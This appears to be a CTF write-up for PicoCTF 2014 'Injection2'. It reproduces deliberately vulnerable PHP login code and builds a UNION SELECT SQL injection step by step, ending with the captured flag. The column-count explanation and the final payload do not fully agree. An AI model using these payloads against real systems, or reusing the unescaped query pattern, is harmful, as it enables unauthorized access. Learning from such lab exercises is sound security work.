 ###Injection2

This challenges comes from PicoCTF 2014. We are to perform an SQL injection on the web application we are provided with. The source code for the PHP file making the query is as follows:
```
<?php
include "config.php";
$con = mysqli_connect("localhost", "sql2", "sql2", "sql2");
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);

if (intval($debug)) {
  echo "<pre>";
  echo "username: ", htmlspecialchars($username), "\n";
  echo "password: ", htmlspecialchars($password), "\n";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  if (mysqli_errno($con) !== 0) {
    echo "SQL error: ", htmlspecialchars(mysqli_error($con)), "\n";
  }
  echo "</pre>";
}

$logged_in = false;
if (mysqli_num_rows($result) === 1) {
  $row = mysqli_fetch_array($result);
  if ($row["password"] === $password) {
    $logged_in = true;
    echo "<h1>Logged in!</h1>";
    echo "<pre>User level: ", $row["user_level"],  "</pre>";
    if ($row["user_level"] >= 1337) {
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<p>Only user levels 1337 or above can see the flag.</p>";
    }
  }
}

if (!$logged_in) {
  echo "<h1>Login failed.</h1>";
}
?>
```
From the above it is clear that to get the flag we need to bypass three conditions:
1. # of rows returned from the query === 1 (triple equal sign checks for identival value as well as datatype)
2. our "password" variable supplied via POST method must match the "password" field of the result
3. the "user_level" field must be greater or equal to 1337

Without the possiblity to register any user to the database, it becomes certain that we somehow have to "fake" the query result. Since there is no sanitization or escaping of user input,
we can achieve this by appending ```UNION SELECT``` query.

Basically, a ```UNION``` clause merges the result of multiple ```SELECT``` statements. For it to work, two conditions must be satisfied:
1. The # of columns in the SELECT statements must match (UNION is based on the # of columns in the FIRST query)
2. The data types of the corresponding columns in the SELECT statements must match (or must be convertable to match)

Note on the difference between ```UNION SELECT``` and ```UNION ALL SELECT```:
```UNION SELECT``` effectively removes duplicate results i.e. perform DISTINCT, while ```UNION ALL``` does not.

Now, there is also a convenient clause for SQL query, that is ```AS```. Using this, we can "fake" entries in the table. On top of this, we want to nullify the orignal query, and this can be achieved doing the opposite
of what we normally do - add the condition ```AND 1=0``` which always returns false, instead of ```OR 1=1``` which always returns true.

We can attach the following string to the original query ```$query = "SELECT * FROM users WHERE username='$username'"``` as follows:
```' AND 1=0 UNION SELECT 'admin' AS username, 'password' AS password, 1337 AS user_level #``` (```#``` can be replaced by ```-- ```. Note the space that follows!).

With the debug mode turned on (turn on by editing the ```hidden``` input field in HTML), it gives the following error message:
```
SQL error: The used SELECT statements have a different number of columns
```
Different number of columns! The only way we can figure out is just by keep adding columns one by one till they match (just append ```,1``` for the equivalence of adding a column). So do
```
' AND 1=0 UNION SELECT 'admin' AS username, 'password' AS password, 1337 AS user_level, 1 #
```
When we have 5 columns in the second ```SELECT``` statement, it gives out no more error: however, we still don't see the flag. This means, that the data types of the corresponding columns do not match,
so try different orderings. 

In the end, put the following query into the username input field, 

```
' AND 1=0 UNION SELECT 'admin' AS username, 1, 'password' AS password, 1, 1337 AS user_level, 1 #
```
with "password" in the password input field. This prints 
```Your flag is: flag_nJZAKGWYt7YfzmTsCV```

